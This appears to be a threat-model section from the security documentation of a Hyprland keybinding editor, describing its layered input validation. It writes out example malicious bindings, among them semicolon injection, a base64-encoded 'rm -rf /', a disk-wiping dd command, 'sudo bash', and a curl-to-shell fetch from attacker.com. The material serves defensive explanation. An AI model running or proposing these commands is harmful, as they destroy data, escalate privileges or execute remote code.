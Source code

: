 #### 1. [Shell Command Injection](https://en.wikipedia.org/wiki/Code_injection#Shell_injection)
**Attack Vector**: Malicious input in keybinding arguments
```bash
# BLOCKED: Attempt to inject shell commands
bind = SUPER, K, exec, firefox; rm -rf /home/user
```
**Mitigation**: Layer 1 detects `;` metacharacter and rejects input.

#### 2. Encoded Payload Injection
**Attack Vector**: Base64 or hex-encoded malicious commands
```bash
# BLOCKED: Base64-encoded command
bind = SUPER, K, exec, echo 'cm0gLXJmIC8=' | base64 -d | sh
```
**Mitigation**: Layer 2 [Shannon entropy](https://en.wikipedia.org/wiki/Entropy_(information_theory)) detection identifies encoded strings.

#### 3. Dangerous System Commands
**Attack Vector**: Direct system destruction commands
```bash
# BLOCKED: Critical destructive command
bind = SUPER, K, exec, rm -rf /
bind = SUPER, K, exec, dd if=/dev/zero of=/dev/sda
```
**Mitigation**: Layer 2 regex patterns match critical command structures.

#### 4. Privilege Escalation
**Attack Vector**: Unauthorised privilege elevation
```bash
# FLAGGED: Privilege escalation attempt
bind = SUPER, K, exec, sudo bash
```
**Mitigation**: Layer 2 flags `sudo`, `doas`, `su`, `pkexec` as dangerous.

#### 5. Config File Corruption
**Attack Vector**: Power loss or crash during write
**Mitigation**: Atomic write operations (temp file + OS rename guarantee).

#### 6. Data Loss from Accidental Deletion
**Attack Vector**: User deletes keybinding by mistake
**Mitigation**: Automatic timestamped backups before every write operation.

### Threats NOT Fully Mitigated ⚠️

#### 1. Malicious Valid Commands
**Scenario**: User intentionally creates dangerous but syntactically valid binding.
```bash
bind = SUPER, K, exec, curl attacker.com/malware.sh | sh
```
**Status**: Application validates syntax, but cannot determine user intent.
**Mitigation Strategy**: Layer 2 flags `curl` as suspicious, warns user.
**Residual Risk**: User can ignore warning and proceed.
